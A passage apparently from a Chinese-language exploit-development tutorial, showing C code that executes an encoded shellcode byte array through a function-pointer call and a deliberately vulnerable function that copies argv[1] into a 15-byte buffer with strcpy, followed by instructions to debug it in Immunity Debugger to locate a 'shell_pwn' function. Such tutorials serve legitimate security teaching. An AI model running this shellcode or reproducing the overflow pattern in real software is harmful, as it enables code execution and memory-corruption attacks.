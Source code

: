 ```
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}

int copytobuffer(char* input)
{
    char buffer[15];
    strcpy (buffer,input);
    return 0;
}

void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```

现在，构建它，让我们在调试器中运行它，以查找`shell_pwn`函数的地址。以管理员身份启动免疫调试器，并使用所需的任何参数选择我们的新代码：

![](img/00274.jpeg)
